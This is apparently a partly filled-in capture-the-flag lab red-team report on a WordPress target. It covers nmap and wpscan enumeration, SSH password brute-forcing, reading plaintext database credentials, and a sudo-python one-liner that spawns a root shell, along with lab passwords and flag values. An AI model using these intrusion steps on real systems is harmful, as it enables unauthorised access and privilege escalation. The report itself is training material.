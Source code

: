 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV 192.168.1.110
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var`
	- `grep -rnw ./ -e flag1 2>/dev/null`

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var/www`
	- `cat flag2.txt`

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cat /var/www/html/wp_config.php`
	- `mysql -u root -p` (password R@v3nSecurity)
	- `USE wordpress;`
	- `USE wp_posts;`
	- `SELECT * FROM wp_posts;`

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
     - Commands run:
	- `ssh steven@192.168.1.110 (password pink84)`
	- `python -c 'import os; os.system("/bin/sh")'`
	- `cat /root/flag4.txt`
